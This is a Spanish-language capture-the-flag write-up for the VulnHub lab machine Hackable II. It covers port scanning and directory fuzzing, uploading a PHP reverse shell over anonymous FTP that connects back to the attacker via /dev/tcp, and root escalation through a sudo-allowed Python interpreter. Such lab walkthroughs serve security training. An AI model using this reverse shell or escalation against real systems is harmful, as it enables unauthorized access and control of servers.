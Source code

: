 ```yaml
---
title: Hackable II
date: 2024-07-03
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.151 -n -Pn -v
```

![picture](/assets/images/vulnhub/hackable1.png){: w="600" h="300" }

Una vez realizado el escaneo, realizaremos un escaneo exhaustivo de los puertos encontrados, para ver si podemos encontrar algo más mediante los scripts de NMAP.

```bash
nmap -p21,22,80 -sV -sC 192.168.1.151 -v 
```

![picture](/assets/images/vulnhub/hackable2.png){: w="600" h="300" }

Encontramos que el usuario **Anonymous** está habilitado, y su directorio contiene un archivo llamado "*CALL.html*".

A continuación, lo descargaremos y veremos que contiene.

![picture](/assets/images/vulnhub/hackable3.png)

En un principio no parece haber nada relevante.

![picture](/assets/images/vulnhub/hackable4.png){: w="600" h="300" }

En la web hay una página por defecto de **Apache2**, y buscando información filtrada o comentada en la fuente de la página, encontramos lo siguiente.

![picture](/assets/images/vulnhub/hackable5.png)

Lo siguiente será realizar **Fuzzing** con **Gobuster** para ver que encontramos.

```bash
gobuster dir -u http://192.168.1.151/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403 
```

![picture](/assets/images/vulnhub/hackable6.png)

Encontramos la ruta "**/files/**", y comprobamos que es el mismo directorio que el que usa el usuario **Anonymous**.

![picture](/assets/images/vulnhub/hackable7.png){: w="600" h="300" }

---

## **Explotación**

Ya que el directorio que hemos encontrado, es el mismo que el de **Anonymous**, y lo podemos encontrar en el navegador, hay una vía potencial de subir un archivo **PHP** y que nos lo ejecute, así que subiremos una **Reverse Shell** simple, mediante **FTP**, para poder ejecutarla desde el navegador.

- *Reverse Shell*

    ```php
    <?php
    exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
    ?>
    ```

![picture](/assets/images/vulnhub/hackable8.png)

Antes de ejecutarla, crearemos un **Listener** con **Ncat** en nuestra máquina local.

- Listener

    ```bash
    nc -nlvp 4444
    ```

Actualizamos la web una vez subamos el archivo, y clicamos en el archivo.

![picture](/assets/images/vulnhub/hackable9.png){: w="600" h="300" }

Y obtendremos acceso al servidor como el usuario "**www-data**".

---

## **Escalada de privilegios**

En el directorio *"/home/"* encontramos un archivo que nos indica que ejecutemos un *script*, y la carpeta personal de un usuario llamado **shrek**.

![picture](/assets/images/vulnhub/hackable10.png){: w="600" h="300" }

Si vemos el contenido del script, podemos comprobar que no hace nada, simplemente saca output por terminal, pero abajo podemos encontrar lo que parece una contraseña hasheada.

![picture](/assets/images/vulnhub/hackable11.png){: w="600" h="300" }

Nos vamos a [**Crackstation**](https://crackstation.net), e introducimos la contraseña, y nos la deshasea.

![picture](/assets/images/vulnhub/hackable12.png)

Intentamos acceder mediante **SSH**, y obtenemos acceso como el usuario "**shrek**". (También funciona con **su shrek**)

![picture](/assets/images/vulnhub/hackable13.png){: w="600" h="300" }

En su directorio personal, tenemos la primera **flag**.

![picture](/assets/images/vulnhub/hackable14.png){: w="600" h="300" }

Comprobando los permisos de **SUDO** del usuario "**shrek**", comprobamos que no necesita contraseña al ejecutar Python3.5 con permisos de **SUDO**.

Para escalar privilegios al usuario root, ejecutaremos lo siguiente.

```bash
sudo python3.5
```
Y dentro de **Python3.5**.

```python
import os
os.setuid(0)
os.system("whoami")
os.system("/bin/bash")
```

![picture](/assets/images/vulnhub/hackable15.png){: w="600" h="300" }

Y en el directorio personal de root, tenemos la segunda **flag**.

![picture](/assets/images/vulnhub/hackable16.png){: w="600" h="300" }